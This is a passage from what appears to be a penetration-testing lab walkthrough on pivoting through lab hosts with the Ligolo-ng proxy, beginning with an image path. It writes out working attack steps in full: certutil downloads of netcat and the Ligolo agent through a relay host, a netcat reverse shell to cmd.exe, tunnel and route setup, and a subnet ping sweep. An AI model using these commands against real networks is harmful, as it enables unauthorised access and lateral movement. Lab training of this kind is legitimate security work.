 ```bash
| [+] Logolo-ng PROXY                                         |
+------------------------------------------------------------+

#Create Listener in Ligolo Proxy:  
`listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp` 

#upload Netcat to Ligolo-2 via Jump Host (Ligolo-1):
#Use Ligolo-1’s IP and port 8080 to transfer files.  
`python -m http.server -port 80` # on kali
`certutil.exe -urlcache -f "http://192.168.8.129:8080/nc.exe" nc.exe` #on Ligolo-2 

#Create a New Listener for Reverse Shell:  
#we will use the same technique from earlier we will create a new listener and execute Netcat along with the IP of the Ligolo-1 Machine(Jump Host) and the port we specify with the listener
`listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:444 --tcp`  

#Execute Reverse Shell from Ligolo-2 to Kali:
`nc -lnvp 444` # on kali 
`nc 192.168.8.129 4444 -e cmd.exe`  #on Ligolo-2(Use Ligolo-1 IP and configured port)
'++++++++++++++++++++++++++++++++++++++++++++++++'
successfully gaining access to Ligolo-2 machine |
'++++++++++++++++++++++++++++++++++++++++++++++++'
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#After gaining access to Ligolo-1 and Ligolo-2, the next step is to pivot and gain access to Ligolo-3, which is in the subnet `192.168.119.0/24`

#Now we need to utilize the Ligolo-2 Machine and make it a Jump Host for us to reach the Ligolo-3 Machine >>

################################################
2. `Ligolo-2`: `192.168.119.128` & `192.168.8.130` 
################################################

#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server -port 80 ` # on kali 
`certutil.exe -urlcache -f "http://192.168.8.129:8080/agent.exe" agent.exe` #on Ligolo-2 , upload agent to Ligolo-2 via Jump Host (Ligolo-1)

#2.Setup Tun Interface on Kali:
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo-2`  
`sudo ip link set ligolo-2 up`

#4.execute Ligolo Agent to Compromised Machine:  
# To run Ligolo's Agent on the Ligolo-2 Machine, we'll adopt a strategy similar to the reverse shell. we must also create a new listener on Ligolo-1. This listener on Ligolo-1 will be essential for receiving the connection on our Ligolo proxy and ensuring the connection is established successfully.
`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp` 
`.\agent.exe -ignore-cert -connect 192.168.8.129:11601` # on ligolo-2

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #2 Ligolo-2 
`ifconfig` #192.168.119.128
`start --tun ligolo-2` #establishing a connection between kai & Ligolo-2 

#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.119.0/24 dev ligolo-2`  

#7.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.119.$i | grep "from" &) ;done 


#8.Execute Reverse Shell from Ligolo-2 to Kali:
###########################################
```